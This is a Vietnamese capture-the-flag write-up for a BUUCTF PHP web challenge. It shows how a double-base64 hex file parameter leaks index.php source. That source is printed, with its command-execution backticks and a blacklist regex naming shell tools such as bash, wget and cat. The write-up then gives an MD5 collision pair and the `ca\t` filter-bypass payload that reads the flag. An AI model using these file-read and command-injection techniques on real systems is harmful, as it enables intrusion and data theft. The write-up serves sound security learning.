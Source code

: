 ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/101ec721-a444-410b-93fb-b8e4d4ce7bbf)

 Challenge này không cho ta gì hết ngoại trừ 2 bức ảnh.Để ý URL : `/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=` Ta thấy giá trị của tham số `img` là 1 dãy base64.
 
Sau khi mò nhiều lần thì cái bức ảnh ảnh này phải decode base64 2 lần, cuối cùng thì nó ra HEX.

```
img=TXpVek5UTTFNbVUzTURabE5qYz0
decode base64 lần 1:MzUzNTM1MmU3MDZlNjc=
decode base64 lần 2: 3535352e706e67
Hex: 555.png
```
Sau khi HEX thì nó ra là `555.png` mà đó là cái bức ảnh này ![image](https://github.com/Llam-a/BUUCTF/assets/115911041/5f2198c5-02c2-4b7d-98bf-239697335b22)

Mình thử viewsource page thì cái bức ảnh này là 1 dãy base64, mình làm tương tự như tham số `img`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/e7c9c6e2-87ba-425b-9ef5-886f2a20dd54)

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/61d2b597-bc9f-4456-80a7-c8e396f310d5)

Cũng ko có gì mới.Bây giờ mình sẽ thử với giá trị `index.php`- là cái background.Reverse `index.php`

```
Hex: 696e6465782e706870
Base64 lần 1: Njk2ZTY0NjU3ODJlNzA2ODcw
Base64 lần 2: TmprMlpUWTBOalUzT0RKbE56QTJPRGN3
```

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/ae99708d-8bed-482e-8efd-52bcfb94da73)

Bây giờ làm tương tự như ban đầu

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/74df9c3e-2662-45a2-803f-49ba00285e28)

Và nó cho ta source code.

```php
<?php
error_reporting(E_ALL || ~ E_NOTICE);
header('content-type:text/html;charset=utf-8');
$cmd = $_GET['cmd'];
if (!isset($_GET['img']) || !isset($_GET['cmd'])) 
    header('Refresh:0;url=./index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=');
$file = hex2bin(base64_decode(base64_decode($_GET['img'])));

$file = preg_replace("/[^a-zA-Z0-9.]+/", "", $file);
if (preg_match("/flag/i", $file)) {
    echo '<img src ="./ctf3.jpeg">';
    die("xixi～ no flag");
} else {
    $txt = base64_encode(file_get_contents($file));
    echo "<img src='data:image/gif;base64," . $txt . "'></img>";
    echo "<br>";
}
echo $cmd;
echo "<br>";
if (preg_match("/ls|bash|tac|nl|more|less|head|wget|tail|vi|cat|od|grep|sed|bzmore|bzless|pcre|paste|diff|file|echo|sh|\'|\"|\`|;|,|\*|\?|\\|\\\\|\n|\t|\r|\xA0|\{|\}|\(|\)|\&[^\d]|@|\||\\$|\[|\]|{|}|\(|\)|-|<|>/i", $cmd)) {
    echo("forbid ~");
    echo "<br>";
} else {
    if ((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b'])) {
        echo `$cmd`;
    } else {
        echo ("md5 is funny ~");
    }
}

?>
<html>
<style>
  body{
   background:url(./bj.png)  no-repeat center center;
   background-size:cover;
   background-attachment:fixed;
   background-color:#CCCCCC;
}
</style>
<body>
</body>
</html>
```
Ban đầu nó gán giá trị của tham số "cmd" được truyền trong URL cho biến $cmd.Vậy thì ta có thể RCE qua biến này

Tiếp theo nó sẽ kiểm tra hai tham số `img` và `cmd` có tồn tại trong url không, nếu 1 trong 2 không tồn tại thì nó chuyển hướng sang url:`/index.php?img=TXpVek5UTTFNbVUzTURabE5qYz0&cmd=`.

Và giá trị của `img` được base64 2 lần và chuyển thành chuỗi hex được gán cho biến file.Các giá được trong biến file sẽ được filter `"/[^a-zA-Z0-9.]+/", ""`.Và nó sẽ kiểm tra chuỗi của biến file có từ flag hay ko, nếu có nó sẽ in ra `xixi～ no flag`.Nếu không thì nó sẽ đọc cái biến file decode sang base64 rồi lưu trong biến txt.Sau đó thì nó in ra 1 hình ảnh và content của hình ảnh đó được lấy từ biến txt.Sau đó in ra giá trị biễn $cmd.

Tới cái if tiếp theo nó sẽ filter khá nhiều lệnh trong biến cmd.Nếu ko có thì nó sẽ chuyển sang cái if tiếp theo. Nó sẽ kiểm tra hai biến a và b có khác nhau và có cùng giá trị hàm băm md5 hay không.Nếu điều kiện này đúng thì nó in ra câu lệnh được lưu trong biến cmd.Khi nó so sánh hàm băm thì nó dùng strict comparison.

Sau một hồi research thì mình tìm được chuổi md5 collision này sau khi url decode thì qua hàm băm sẽ bằng nhau nhưng giá trị ban đầu nó khác nhau.

Mình vô tình search thấy được cái này, cũng ko hiểu tại sao nó sử dụng được.Ban đầu mình có lấy md5 collision để làm nhưng ko cho kết quả là mấy.

```
a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
&b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
```

Còn với lệnh cmd thì ta có thể sử dụng `\` payload:`ca\t%20flag`

![image](https://github.com/Llam-a/BUUCTF/assets/115911041/69aec727-4442-41ab-aecb-abda813eef0f)

Mình ko biết tại sao nhưng mà mình làm lại khá nhiều lần thì mới thành công.





